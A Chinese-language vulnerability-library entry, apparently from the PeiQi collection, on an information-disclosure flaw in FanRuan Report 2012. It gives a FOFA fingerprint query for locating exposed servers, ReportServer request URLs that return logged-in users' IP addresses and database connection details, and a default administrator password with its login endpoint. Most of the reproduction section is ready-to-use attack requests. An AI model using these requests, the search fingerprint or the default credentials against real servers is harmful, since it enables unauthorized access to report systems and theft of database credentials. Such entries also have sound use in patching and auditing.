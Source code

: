 ```yaml
---
title: 帆软报表 2012 信息泄露漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 帆软OA
---
```


# 帆软报表 2012 信息泄露漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取部分敏感信息

## 漏洞影响

> [!NOTE]
>
> 帆软报表 2012

## FOFA

> [!NOTE]
>
> body="down.download?FM_SYS_ID"

## 漏洞复现

获取登录报表系统的IP

```
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_visitstatehtml&showtoolbar=false
```

![](/img/20210924013806586098.png)

数据库信息泄露

```
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```

![](/img/20210924013806791336.png)

后台默认口令 admin/123456

```
/ReportServer?op=fr_auth&cmd=ah_login&_=new%20Date().getTime()
```

